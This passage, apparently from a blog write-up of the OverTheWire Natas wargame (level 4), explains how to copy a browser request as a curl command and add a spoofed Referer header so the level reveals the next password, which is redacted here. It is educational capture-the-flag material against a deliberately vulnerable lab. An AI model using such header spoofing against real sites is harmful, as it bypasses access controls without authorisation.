 Paste the command into the terminal or a text editor and it should look
something like this.

```
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Authorization: Basic [REDACTED]' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  --insecure
```

Each argument to the `-H` flag is an HTTP header. Now, just add an argument for
the Referer header with the correct value as mentioned in the message on the
home page.

```hl_lines=8
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Authorization: Basic [REDACTED]' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  --insecure
```

Be sure to keep the original `Authorization` header from your own HTTP request.
It's required to handle the [Basic
authentication](https://developer.mozilla.org/en-US/docs/Web/HTTP/Authentication#the_general_http_authentication_framework)
that was previously handled by the browser.

Alternatively you can provide the credentials with the `-u` flag like so.
Replacing `REDACTED` with the level 4 password you used to access this level.

```hl_lines=2
curl -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
     -u natas4:REDACTED \
     http://natas4.natas.labs.overthewire.org
```

The `curl` response should contain the following in the body with the password
to the next level.

```html, hl_lines=15, linenostart=20
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is [REDACTED]
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
```


[^1]: See my writeups for the OverTheWire [Bandit](/blog/overthewirebandit) and
[^2]: A relatively high-profile example of this sort of data disclosure
[^3]: Not __every__ request made by a browser is strictly over HTTP or HTTPS,
[^4]: Yes the correct spelling should be "Referrer", however the header was misspelled in the original HTTP specification, [RFC 1945](https://www.rfc-editor.org/rfc/rfc1945#section-10.13), so it remains misspelled for compatibility.